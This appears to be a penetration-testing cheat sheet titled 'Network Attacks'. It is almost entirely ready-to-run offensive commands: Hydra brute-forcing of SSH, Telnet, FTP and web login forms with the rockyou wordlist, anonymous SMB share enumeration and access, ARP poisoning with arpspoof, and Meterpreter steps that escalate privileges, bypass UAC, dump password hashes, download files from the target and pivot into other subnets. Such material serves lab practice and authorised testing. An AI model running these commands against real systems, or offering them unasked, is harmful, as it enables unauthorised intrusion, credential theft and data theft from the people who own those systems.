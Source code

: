 ```yaml
---
title: "Network Attacks"
description: "SSH, Telnet, RDP, HTTP auth, Windows shares"
---
```


## Hydra

### SSH

```bash
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```bash
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```bash
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```bash
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

- /etc/john/rockyou.txt for passwords.
- /usr/share/ncrack/minimal.usr for users.
- Sometimes you can just use the users list for the passwords too.

## Shares

### Shares Enumeration

```bash
nmblookup -A 10.10.10.10
```

### List Shares

```bash
smbclient -L //10.10.10.10 -N
```

### Mount Share

```bash
smbclient //10.10.10.10/sharename -N
```

### enum4linux

```bash
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, which you have to implement using smbclient.

## ARP Poisoning

### arpspoof

\<interface\> == eth0/tap0

```bash
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic

```bash
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter

**bind_tcp**: runs a server process on the target machine that waits for connections from the attacker machine.

**reverse_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```bash
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #windows privesc
bypassuac #if windows privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

### Routing in Metasploit

Background the meterpreter of the session where you found the other subnet accessible.

```bash
use post/multi/manage/autoroute
route add <subnet> <session-id>
```

You have to input the session id of the meterpreter session.

Now the subnet is accessible in the whole of Metasploit-Framework.